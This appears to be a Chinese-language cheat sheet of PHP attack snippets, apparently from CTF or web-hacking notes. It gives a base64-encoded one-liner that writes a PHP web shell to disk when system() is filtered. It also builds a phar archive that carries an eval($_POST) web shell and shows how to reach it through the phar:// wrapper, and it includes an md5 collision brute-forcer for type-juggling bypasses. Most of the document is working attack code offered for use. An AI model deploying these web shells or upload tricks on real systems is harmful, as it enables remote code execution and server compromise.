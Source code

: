 # 脚本
## PHP脚本
### 命令写入一句话马
php 一句话木马
```
eval("fputs(fopen('dotast.php','w'),base64_decode(\"PD9waHAgQGV2YWwoJF9QT1NUWydwYXNzJ 10pOw==\"));");
```
在system函数被过滤的时候，可以使用这个方式写入木马(密码 pass)
### phar文件生成
需要php.ini文件中的phar.readonly=Off
```
<?php
$phar=new Phar("a.phar"); //文件名
$phar->startBuffering(); //开启缓冲区
$phar->setStub("<?php __HALT_COMPILER();?>"); //设置stub用来标识phar文件
$phar->addFromString("file_name","file_content"); //设置压缩内容和压缩文件
$phar->stopBuffering(); //关闭缓冲区
?>
```
**生成木马**
```
<?php
$content='<?php eval($_POST["cmd"]);?>';
$phar=new Phar("upload.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
$phar->addFromString("upload.php",$content);
$phar->stopBuffering();
?>
```
使用phar协议访问
`?path=phar://upload.phar/upload`


### md5生成脚本
```
 <?php
    echo "-------------------------------------------\r\n"; 
    while(1){
        $s=rand();
        $s.="a";
        $s="s".$s;
        if(md5($s)=="0") {
            echo $s;
            echo "\r\n";
            echo md5($s)."\r\n";
        }
    }
?>
```
 数组绕过正则匹配
